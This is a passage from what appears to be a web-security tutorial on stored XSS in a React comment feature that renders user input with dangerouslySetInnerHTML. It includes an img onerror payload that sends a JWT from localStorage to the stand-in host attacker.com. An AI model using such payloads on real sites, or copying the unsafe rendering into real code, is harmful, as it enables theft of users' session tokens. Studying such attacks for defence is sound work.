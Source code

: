 You can try to add comments like:

```html
hello
<span style="color:red">danger</span>
<a href="http://malicious-site.com">Click here for more CDC vouchers</a>
```

To display HTML comments in React, we need to use `dangerouslySetInnerHTML`.

```js
comments.map((c, i) => (
  <div key={i} className="mb-2 pl-2">
    <div dangerouslySetInnerHTML={{ __html: `👱🏻‍♂️: ${c}` }} />
  </div>
));
```

Now the content will be rendered as HTML.

That means we can even add malicious links:

```html
<a href="https://haveibeenpwned.com/" style="color:blue" target="_blank"
  >Click here for more CDC vouchers</a
>
```

This is where an attacker can inject malicious scripts and carry out a **Stored XSS** attack.

Scripts using `<script>`inserted via `innerHTML` are **inert** in most modern browsers and will not execute. However, attackers still have many other vectors (event handlers, `javascript:` URLs, SVG payloads, CSS `url()` with old engines, etc.).

```html
<!-- Inline <script> added via innerHTML is inert in modern browsers -->
<script>
  alert("This usually will NOT run when injected via innerHTML");
</script>
```

But attackers can use event handlers to execute JavaScript code. For example, the attacker can use an `<img>` tag that has an `onerror` attribute:

```html
<img src="invalid.jpg" onerror="console.log('XSS Attack!')" />
```

This means the attacker can execute JavaScript code in the context of the victim's browser. Remember that we have a JWT stored in `localStorage` and a cookie. The attacker can steal the JWT and send it to their server.

```html
<!-- sending token to attacker -->
<img
  src="invalid.jpg"
  onerror="fetch('https://attacker.com/steal?token=' + localStorage.getItem('token'))"
/>
<!-- since we don't have a server for this, just do an alert -->
<img
  src="invalid.jpg"
  onerror="alert('Stolen:'+localStorage.getItem('token'))"
/>
```
